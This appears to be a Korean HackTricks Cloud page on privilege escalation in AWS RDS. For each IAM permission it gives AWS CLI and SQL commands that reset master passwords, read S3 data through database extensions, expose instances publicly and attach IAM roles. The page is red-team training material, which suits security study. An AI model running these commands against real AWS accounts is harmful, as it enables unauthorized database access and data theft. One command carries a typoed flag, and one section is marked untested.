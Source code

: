 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - 관계형 데이터베이스 서비스

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

이 권한을 통해 공격자는 **마스터 사용자 비밀번호를 수정**하고 데이터베이스 내에서 로그인할 수 있습니다:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
데이터베이스에 **연결할 수 있어야 합니다** (일반적으로 내부 네트워크에서만 접근 가능합니다).
{% endhint %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### rds-db:connect

[**문서**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면, 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS 역할 IAM 권한 남용

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**를 실행했을 때 **`rdsadmin`**이라는 데이터베이스를 찾으면 **AWS postgresql 데이터베이스**에 있는 것입니다.
{% endhint %}

먼저 이 데이터베이스가 다른 AWS 서비스에 접근하는 데 사용되었는지 확인할 수 있습니다. 설치된 확장을 살펴보면 확인할 수 있습니다:
```sql
SELECT * FROM pg_extension;
```
만약 **`aws_s3`**와 같은 것을 찾으면 이 데이터베이스가 **S3에 대한 어떤 종류의 접근 권한**을 가지고 있다고 가정할 수 있습니다 (다른 확장자도 있습니다, 예: **`aws_ml`** 및 **`aws_lambda`**).

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면, **`AssociatedRoles`** 필드에서 **클러스터에 연결된 IAM 역할**이 있는지 확인할 수 있습니다. 만약 있다면, 데이터베이스가 **다른 AWS 서비스에 접근하도록 준비되었다고** 가정할 수 있습니다. **역할의 이름**(또는 역할의 **권한**을 얻을 수 있다면)을 기반으로 데이터베이스가 어떤 추가 접근 권한을 가지고 있는지 **추측**할 수 있습니다.

이제 **버킷 안의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
만약 **원시 AWS 자격 증명**이 있다면, 다음과 같이 S3 데이터에 접근할 수 있습니다:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **은 S3에 접근하기 위해 어떤 파라미터 그룹 변수를 변경할 필요가 없습니다.**
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 내부에서 **`SELECT User, Host FROM mysql.user;`** 쿼리를 실행했을 때 **`rdsadmin`**이라는 사용자가 있다면, **AWS RDS mysql db** 내부에 있다고 가정할 수 있습니다.
{% endhint %}

mysql에서 **`show variables;`**를 실행하고 **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**와 같은 변수에 값이 있다면, 데이터베이스가 S3 데이터에 접근할 준비가 되어 있다고 가정할 수 있습니다.

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면 클러스터에 **연관된 역할**이 있는지 확인할 수 있으며, 이는 일반적으로 AWS 서비스에 대한 접근을 의미합니다.

이제 **버킷 내의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.\
일부 DB는 추가 구성이 필요하다는 점에 유의하십시오. 예를 들어 Mysql은 매개변수 그룹에서 역할 ARN을 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만으로도 공격자는 **이미 존재하고 IAM 역할이 연결된 클러스터 내에 새로운 인스턴스**를 생성할 수 있습니다. 그는 마스터 사용자 비밀번호를 변경할 수는 없지만, 새로운 데이터베이스 인스턴스를 인터넷에 노출할 수 있을지도 모릅니다:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

`rds:CreateDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할이 연결된 새로운 RDS 인스턴스를 생성할 수 있습니다**. 공격자는 이후 **민감한 데이터에 접근하거나** 인스턴스 내의 데이터를 수정할 수 있습니다.

{% hint style="warning" %}
연결할 역할/인스턴스 프로필의 일부 요구 사항 ( [**여기**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)에서):

* 프로필은 귀하의 계정에 존재해야 합니다.
* 프로필은 Amazon EC2가 가정할 수 있는 IAM 역할을 가져야 합니다.
* 인스턴스 프로필 이름과 관련된 IAM 역할 이름은 `AWSRDSCustom` 접두사로 시작해야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.

{% hint style="warning" %}
DB 인스턴스는 클러스터 외부에 있어야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
